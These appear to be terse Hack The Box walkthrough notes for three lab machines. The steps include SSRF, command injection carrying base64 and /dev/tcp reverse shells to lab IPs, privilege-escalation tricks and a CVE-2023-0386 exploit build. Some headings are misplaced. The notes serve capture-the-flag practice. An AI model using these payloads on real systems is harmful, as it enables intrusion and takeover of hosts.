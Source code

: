 ## Table of Contents

- [MonitorsTwo (HTB)](#monitorstwo\(htb))
- [2Million (HTB)](#2million\(htb))

SSRF vulnerbility
`nmap -A -sC -sV -T4 $ip -oN sau.scan`

on the webpage(55555) 

to trigger the SSRF-> 

set up a path for the basket by clicking on the settings button.
(path -> http://127.0.0.1:80/)
set extend forward path on + proxy response

trigger the vuln by going to http://MACHINE_IP:55555/basketName

mailtrail has unauthenticated OS command injection, base64 encode a python reverse shell one-liner then run the unauth rce exploit>
curl 'http://10.10.11.224:55555/htb/login' --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjQiLDY5NjkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJiYXNoIikn | base64 -d | bash`'

after running linpeas etc>>

sudo /usr/bin/systemctl status trail.service

!sh

root!

# MonitorsTwo (HTB)






# 2Million (HTB)
1. Nmap 
2. Search for CVE for Cacti 1.2.2
3. get shell using exploit
4. enumerate
5. cat entrypoint.sh and dockerenv
6. find sql db creds
7. enumerate db
8. ./capsh --gid=0 --uid=0 --
9. mysql --host=db --user=root cacti -e "SELECT * FROM user_auth"
10. find creds to ssh using marcus' account. 
11. crack bcrypt hash using hashcat -m 3200
12. ssh using marcus
13. priv esc
14. back to shell
15. chmod u+s /bin/bash
16. findmnt
17. ls -la /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
18. /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/bin/bash -p
19. root!
20. make account
21. enumerate endpoints with the PHPSESSID
22. curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"email":"test@2million.htb", "is_admin": true}' | jq
23. curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"username":"test;id;"}' uid=33(www-data) gid=33(www-data) groups=33(www-data)
24. bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
25. rev shell!. 

To use CVE-2023-0386:
git clone https://github.com/xkaneiki/CVE-2023-0386
cd CVE-2023-0386
make all
./fuse ./ovlcap/lower ./gc &

Then execute the exp binary in the foreground
./exp

Root!
